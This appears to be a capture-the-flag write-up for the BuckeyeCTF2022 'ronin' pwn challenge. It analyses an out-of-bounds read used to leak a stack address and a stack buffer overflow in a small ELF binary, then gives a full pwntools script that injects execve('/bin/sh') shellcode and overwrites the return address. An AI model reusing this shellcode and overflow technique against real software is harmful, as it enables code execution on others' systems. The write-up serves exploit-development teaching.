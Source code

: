 # BuckeyeCTF2022 Ronin Challenge | Thomas Spencer

> Category `pwn` | Difficulty: `medium`

# Recon

## File

`
ronin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=eb4ccdef02a96139df6de419cbc283e0f26f1d85, for GNU/Linux 3.2.0, not stripped
`

## Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

NX, RWX, and no canary means we probably can do a shellcode injection!


# Functions

## Main

* Asks for user input

    * No buffer overflow

* Progress if we enter the string `"Chase after it."` as the first bit of our input

    * This means we can fill the rest of the buffer (size 80) with whatever we want!

## Chase

* Entered by typing `"Chase after it."` in `main`

* Has a local array of 4 strings


> "The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n";

> "Tall, thick trees surround you. You can't see a thing. Best to go back.\n";

> "You found the monkey! You continue your pursuit.\n";

> "You find a clearing with a cute lake, but nothing else. Turning around.\n";


* Function takes in a user input, and will call the `search` with the chosen string

* Only checks if the user choice is less than 4

    * This means we can input a negative value since our input is a signed integer

## Search

* Will just print out the text from the previous function

    * Unless the user input was 2 (find monkey string), then we go into the encounter function

    * **Notice: after the encounter function call is an `exit(0)` call!**

## Encounter

* Clears the input

* Prints out some text

* Uses `fgets(s, 49, stdin)` on a buffer of size `32`

    * This means we can overflow saved RBP and saved RIP only


# Vulnerabilites

* Buffer Overflow in `encounter` function

    * Will have to be last because of the `exit(0)` call afterwards

* Out of bounds read on the string array in `chase`

    * Only negative values allowed

    * Output will be simply printed out, and we can keep looping this indefinetly

# Plan of Attack

* NX enabled and RWX means we should make some shellcode. A simple `execl('/bin/bash', ...)` will do

* We'll have to leak the stack address (particularily of the array in main) to find our shellcode

    * Will have to be done with the out of bound read in `chase`

# Exploit Outline

* Enter main, put `"Chase after it."` + `shellcode` as our input

* Run through `search` with a valid string to seed the stack with proper data

* Run through `search` again with a negative offset to leak saved RBP

    * This saved RBP will be for the `chase` function!

* Use the leak to find the address of our shellcode

* Enter `encounter` and overflow RIP to jump to our shellcode

* Profit B)

# TODO:

* Need to figure out why the offset is saved RBP to shellcode offset is `0x50`

* Need to figure out why the offset to leak the saved RBP is `(0x10 + 0x8 + 0x8) // 0x8 = 4`

# Final Script

```python
#!/bin/env python3
from pwn import *

FILE = "./ronin"

DEBUG = False 

context.arch = "amd64"
context.encoding = "latin"

if (DEBUG):
	context.log_level = "debug"

warnings.simplefilter("ignore")

shellcode = asm("\n".join([
	"xor rax, rax",
	"push rax",
	"mov rax, 0x3b",
	"lea rdi, [rip+binsh]",
	"push rdi",
	"mov rsi, rsp",
	"xor rdx, rdx",
	"syscall",
	"binsh:",
	".string \"/bin/sh\"",
]))

LEAK_OFFSET = 0x10 + 0x8 + 0x8
SHELLCODE_OFFSET = 0x50 - len(b'Chase after it.')

p = process([FILE])

if (DEBUG):
	input("Attach Now!")

# Part 1, inject shellcode
p.recvuntil(b'You look up to see a monkey wielding your sword! What will you do?')
p.sendline(b'Chase after it.' + shellcode)

# Part 2, seed stack
p.recvuntil(b'far. Which way will you look? ')
p.sendline(b'0')

# Part 3, leak data
p.recvuntil(b'The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n')
p.sendline(str(-LEAK_OFFSET // 8).encode())

RBPLEAK = p.recv(8)
RBPLEAK = int.from_bytes(RBPLEAK, "little")
print(hex(RBPLEAK))

# Part 4, Overflow
p.sendline(b'2')
p.recvuntil(b'This monkey can talk. "Tell me a joke." ')

payload  = b'A'*0x20
payload += b'B'*0x8
payload += p64(RBPLEAK - SHELLCODE_OFFSET)

p.sendline(payload)

p.interactive()
p.close()
```